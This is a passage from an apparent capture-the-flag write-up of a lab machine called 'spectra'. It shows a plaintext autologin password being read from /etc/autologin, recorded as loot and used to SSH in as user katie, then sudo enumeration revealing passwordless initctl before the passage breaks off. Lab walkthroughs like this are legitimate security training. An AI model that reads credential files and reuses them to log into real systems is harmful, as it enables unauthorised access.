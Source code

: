 ```
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```

autologin.conf starts after boot then reads a password file in these two locations /mnt/stateful_partition/etc/autologin /etc/autologin and if passwd file is present then assign the contents of the file to variable passwd.


following the path /etc/autologin
```
bash-4.3$ cd /etc/autologin

bash-4.3$ ls -la

total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd

bash-4.3$ cat passwd

SummerHereWeCome!!
```

Loot:

katie:SummerHereWeCome!!

ssh to the machine
```
$ ssh katie@10.10.10.229

-bash-4.3$ id

uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

```
-bash-4.3$ cat user.txt
<redacted>
```


## Priv Escalations:

having katie's password run sudo -l
```
-bash-4.3$ sudo -l

User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```
